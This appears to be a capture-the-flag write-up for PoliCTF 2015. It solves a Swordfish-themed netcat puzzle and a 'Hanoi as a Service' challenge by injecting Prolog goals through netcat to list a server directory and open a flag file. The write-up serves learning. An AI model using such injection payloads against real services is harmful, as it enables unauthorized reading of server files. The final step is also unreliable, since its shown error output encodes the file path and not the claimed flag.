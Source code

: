 ```yaml
---
layout: post
title: "Poli CTF 2015"
published: false
---
```


#Poli CTF 2015

PoliCTF is a 48 hour, jeopardy style capture-the-flag competition that will be held both online and live for a restricted number of participants attending the DIMVA 2015 conference held in Milan (Italy). This is the first time I have competed in this CTF, and i'd like to say thank you to the team who put these challenges together!

This is the first CTF I have done in quite a while, so suffice to say I am currently out of practice and overthought many of the challenges. However I still had heaps of fun, and i'm looking forward to practicing for the next CTF!

http://polictf.it/

##Challenge Writeups


###GrabBag

####Hard Interview - 50 Points

This challenge was a great lesson in learning about not overthinking easy challenges!

So we start off with this:
>**interview.polictf.it:80**

Visit the address through your browser, and you'll receive a page that only displays the following text:
```
         ____                                     __                              __      
        /\  _`\                                  /\ \__                          /\ \__   
        \ \ \/\ \     __   _____      __     _ __\ \ ,_\   ___ ___      __    ___\ \ ,_\  
         \ \ \ \ \  /'__`\/\ '__`\  /'__`\  /\`'__\ \ \/ /' __` __`\  /'__`\/' _ `\ \ \/  
          \ \ \_\ \/\  __/\ \ \L\ \/\ \L\.\_\ \ \/ \ \ \_/\ \/\ \/\ \/\  __//\ \/\ \ \ \_ 
           \ \____/\ \____\\ \ ,__/\ \__/.\_\\ \_\  \ \__\ \_\ \_\ \_\ \____\ \_\ \_\ \__\
            \/___/  \/____/ \ \ \/  \/__/\/_/ \/_/   \/__/\/_/\/_/\/_/\/____/\/_/\/_/\/__/
                             \ \_\                                                        
                              \/_/                                                        
                     ___      ____               ___                                
                   /'___\    /\  _`\           /'___\                               
              ___ /\ \__/    \ \ \/\ \     __ /\ \__/   __    ___     ____     __   
             / __`\ \ ,__\    \ \ \ \ \  /'__`\ \ ,__\/'__`\/' _ `\  /',__\  /'__`\ 
            /\ \L\ \ \ \_/     \ \ \_\ \/\  __/\ \ \_/\  __//\ \/\ \/\__, `\/\  __/ 
            \ \____/\ \_\       \ \____/\ \____\\ \_\\ \____\ \_\ \_\/\____/\ \____\
             \/___/  \/_/        \/___/  \/____/ \/_/ \/____/\/_/\/_/\/___/  \/____/
                                                                            
                                                                            
____ ____ ____ ___ ____ _ ____ ___ ____ ___     ____ ____ ____ ____ ____ ____    ____ _  _ _    _   _ 
|__/ |___ [__   |  |__/ | |     |  |___ |  \    |__| |    |    |___ [__  [__     |  | |\ | |     \_/  
|  \ |___ ___]  |  |  \ | |___  |  |___ |__/    |  | |___ |___ |___ ___] ___]    |__| | \| |___   |   


fish@sword:~$  GET: command not found
fish@sword:~$  Host:: command not found
fish@sword:~$  Connection:: command not found
fish@sword:~$  Accept:: command not found
fish@sword:~$  User-Agent:: command not found
fish@sword:~$  Accept-Encoding:: command not found
fish@sword:~$  Accept-Language:: command not found
fish@sword:~$  
: command not found
fish@sword:~$ 
```
The browser's HTTP request being entered as commands is a fairly good indication that we need something more appropriate to access this system. [Netcat](https://en.wikipedia.org/wiki/Netcat)would handle connecting to port 80.
```
nc interview.polictf.it 80
```
Attempting any of the traditional bash commands will result in "command not found". 

```
fish@sword:~$ ls
 ls: command not found
```
After a slew of failed commands, the solution was much more simple - typing in "help" was surprisingly helpful!
```
fish@sword:~$ help
 A very hard interview: Codename Blow...Fish
Maybe you can help me with something...
DOD d-base, 128 bit encryption...What do you think?
Maybe slide in a Trojan hose hiding a worm...
I have been told that best "crackers" in the world can do it in 60 minutes, unfortunately I need someone who can do it in 60 seconds... naturally with the right incentives ;)
If you know what I mean, tell me how a real cracker accesses to a remote super protected server...

Possible commands:
hacker: Write code as a real hacker
help: Give information about the program
hint: Gives a little hint
exit: Loser...bye bye
ssh: A tiny ssh command
date: A very useful and innovative feature
```
The hacker command will literally print out "hacker" code to the screen [as if it was being typed by you](http://hackertyper.net/)! And the date command simply prints a date. Hint provides you with:
```
useage:  ssh username@address
address: a not so easily reachable IP address
Very simple...isn't it?
```
If you haven't picked it up already, this challenge is based around the interview scene in the movie [Swordfish](https://en.wikipedia.org/wiki/Swordfish_(film). I brought up a video of the [interview scene](https://www.youtube.com/watch?v=zfy5dFhw3ik) on YouTube and watched it. After alot of pausing and squinting, I realised that there is an IP address that looks fairly out of place, and a frame that stood out to me.
```
fish@sword:~$ ssh admin@312.5.125.233
 flag{H4ll3_B3rry's_t0pl3ss_sc3n3_w4s_4ls0_n0t4bl3}
```
Success!
---

###Pwnable

####Hanoi as a Service - 50 Points

I really enjoyed this challenge as I learned alot from it. It was also the first time that I have encounted the programming language [Prolog](https://en.wikipedia.org/wiki/Prolog) as well techniques on how to approach these types of challenges.

>HANOI AS A SERVICE
>50 Points
>Check out our shiny new HaaS platform!
>nc haas.polictf.it 80

 When you netcat into the service you recieve the following message:
 
``` 
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
```
Lets enter the number 3.
```
3
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
```
This would be a nifty service if we were looking to play [Tower of Hanoi](https://en.wikipedia.org/wiki/Tower_of_Hanoi), however we want to see how we can attack this service to find the flag.

Lets try some unexpected input, I entered the letter "w", which returned:
```
ERROR: Prolog initialisation failed:
ERROR: </2 Arithmetic: 'w/0' is not a function
```
Interesting! [Prolog](https://en.wikipedia.org/wiki/Prolog) is a general purpose logic programming language, a quick google search reveals a [handy list of commands](http://www.swi-prolog.org/pldoc/man?section=builtin) to try. Some of the unsuccessful approaches I tried were:
- Attempting to overflow the process by providing it with large input, however the code we dumped later showed that it had been coded to avoid processing input larger than 15 characters long.
- Certain commands, such as 'shell()' were rejected with a one of three random messages, such as "Nope.", "What are you trying to do!?!" and "Sorry thats not implemented!".

After some failed commands revealed the directory structure, this allowed me to focus my efforts on reaching the folders above, as it would likely be where the flag was hidden.
```
root@kali:~# nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
2), debug 2 ?- trace
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(2), debug 
ERROR: ** here **
ERROR: 2 ?- trace) . 
Exception in thread Thread-1 (most likely raised during interpreter shutdown):
Traceback (most recent call last):
  File "/usr/lib/python2.7/threading.py", line 810, in __bootstrap_inner
  File "/usr/lib/python2.7/threading.py", line 763, in run
  File "/home/ctf/haas/haas-proxy.py", line 36, in listen
  File "/usr/lib/python2.7/subprocess.py", line 796, in communicate
  File "/usr/lib/python2.7/subprocess.py", line 1376, in wait
  File "/usr/lib/python2.7/subprocess.py", line 476, in _eintr_retry_call
<type 'exceptions.OSError'>: [Errno 10] No child processes
```
The 'working_directory' command seemed like the best command to try here...
```
echo '2), working_directory(CWD, "/home/ctf/haas/"), ls %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
haas			haas-proxy.py			jhknsjdfhef_flag_here
```
This is fantastic - the flag is sitting right there in that folder! After much reading and trial and error, the final command was crafted:
```
echo '2), open("/home/ctf/haas/jhknsjdfhef_flag_here", read, Stream), read_line_to_codes(Stream,Codes), write(Codes) %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
ERROR: Prolog initialisation failed:
ERROR: open/3: source_sink '[47,104,111,109,101,47,99,116,102,47,104,97,97,115,47,106,104,107,110,115,106,100,114,104,101,102,95,102,108,97,103,95,104,101,114,101]' does not exist (No such file or directory)
```
After converting the flag from decimal to ascii the flag was revealed!
```
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```



---
